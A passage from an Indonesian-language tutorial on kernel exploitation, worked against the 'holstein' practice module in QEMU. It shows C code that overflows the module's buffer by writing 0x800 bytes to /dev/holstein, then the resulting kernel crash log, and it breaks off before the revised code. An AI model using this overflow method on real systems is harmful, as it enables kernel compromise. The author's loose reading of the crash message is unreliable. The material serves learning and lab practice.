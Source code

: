```c
{
    char buff[0x800];
    memset(buff,0x41,sizeof(buff));

    int fd = open("/dev/holstein", O_RDWR);
    if(fd==-1){
        ERR("open(holstein)");
    }else{
        puts("perangkat terbuka");
    }

    write(fd,buff,0x800);

    close(fd); //module_close() akan dipanggil lalu g_buff dibebaskan menggunakan kfree()
}


```

lalu jalankan qemu dan gdb seperti tadi, pasang kembali breakpoint dan jalankan exploit, dan ini yang saya dapatkan:

```bash
perangkat terbuka
BUG: stack guard page was hit at (____ptrval____) (stack is (____ptrval____)..()
kernel stack overflow (page fault): 0000 [#1] PREEMPT SMP NOPTI
CPU: 0 PID: 162 Comm: exploit Tainted: G           O      5.10.7 #1
Hardware name: QEMU Ubuntu 24.04 PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-14
RIP: 0010:__memset+0x24/0x30
Code: cc cc cc cc cc cc 66 66 90 66 90 49 89 f9 48 89 d1 83 e2 07 48 c1 e9 03 43
RSP: 0018:ffffc9000054fa58 EFLAGS: 00000246
RAX: 0000000000000000 RBX: 0000000000000558 RCX: 0000000000000055
RDX: 0000000000000000 RSI: 0000000000000000 RDI: ffffc90000550000
RBP: ffffc9000054fa78 R08: ffffffff81ea4608 R09: ffffc90000550000
R10: 00000000fffff000 R11: 3fffffffffffffff R12: ffffc9000054faa8
R13: 00000000000002a8 R14: 00007fff4999f780 R15: ffffc9000054fef8
FS:  00000000004ba380(0000) GS:ffff888007600000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: ffffc90000550000 CR3: 0000000003240000 CR4: 00000000003006f0
Call Trace:
 ? _copy_from_user+0x70/0x80
 module_write+0x75/0xef [vuln]
Modules linked in: vuln(O)
---[ end trace 9f9406b38e9d8c1e ]---
RIP: 0010:__memset+0x24/0x30

```
qemu menunjukkan pesan kesalahan ```BUG: stack guard page was hit at (____ptrval____) (stack is (____ptrval____)..()
kernel stack overflow (page fault): 0000 [#1] PREEMPT SMP NOPTI``` artinya kernel menjadi crash karena register tertentu dan akarnya adalah pointer ____ptrval____, penting untuk memahami pesan error saa kita melakukan debugging, jadi karena pesan kesalahannya tidak sesuai dengan apa yang saya inginkan, mari kita ubah kode kita menjadi:
